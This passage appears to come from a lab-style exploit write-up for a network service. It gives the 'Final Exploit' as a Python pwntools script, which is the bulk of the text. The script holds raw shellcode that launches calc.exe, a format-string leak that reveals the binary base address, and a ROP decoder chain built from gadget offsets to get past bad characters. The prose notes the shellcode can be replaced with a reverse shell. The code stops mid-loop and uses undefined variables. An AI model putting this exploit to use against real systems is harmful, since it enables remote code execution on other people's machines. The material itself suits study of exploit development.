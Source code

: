 This indeed worked. If we now let execution continue we get our calc:

![](proof.png)To get a reverse shell we can replace the shellcode but it still needs to have not more than about 30 bad characters. This can be a bit tricky when using msfvenom but is not difficult to achieve with custom shellcode that is already null-byte free (so the rop decoder does not have to do it).


## Final Exploit

Finally here is the complete exploit:

```python
#!/usr/bin/env python3
from pwn import *

offset = 1032
size = 4000

sc =  b""
sc += b"\x90"*0x30
sc += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
sc += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
sc += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
sc += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
sc += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
sc += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
sc += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
sc += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
sc += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
sc += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
sc += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
sc += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
sc += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
sc += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
sc += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

p = remote('192.168.153.212',2121, typ='tcp', level='debug')
p.sendline(b"LST |%p|%p|%p|%p|")
leak = p.recvline(keepends=False).split(b"|")[1:]
binary_leak = int(leak[1].decode(),16)
binary_base = binary_leak - 0x14120;
log.info("Binary base: "+hex(binary_base))

def rop_decoder():
	rop = b""

	# 1) Align eax register with shellcode
	rop += p32(0x4CBFB + binary_base)  # pop eax 
	rop += p32(writeable)
	rop += p32(0x683da + binary_base)  	# push esp ; add dword [eax], eax ; pop ecx; ret;  
	rop += p32(0x704F4 + binary_base)  	# pop eax; ret; 
	rop += p32(0x116ea + binary_base)  	# 0x522 this offset to the shellcode depends on how long the 2nd rop chain is
	rop += p32(0x2bb8e + binary_base)  	# mov eax, dword ptr [eax]; ret;
	rop += p32(0x37958 + binary_base) 	# add eax, 2; sub edx, 2; pop ebp; ret;
	rop += p32(0x41414141)
	rop += p32(0x17781 + binary_base) 	# add eax, ecx; pop ebp; ret 4;
	rop += p32(0x41414141) 
	rop += p32(binary_base + 0x159d)*(4) # ropnop

	# 2) Iterate over every bad char & add offset to all of them      
	offset = 0
	neg_offset = (-offset) & 0xffffffff
	value = 0x11111155 

	for i in range(len(bad_indices)):
```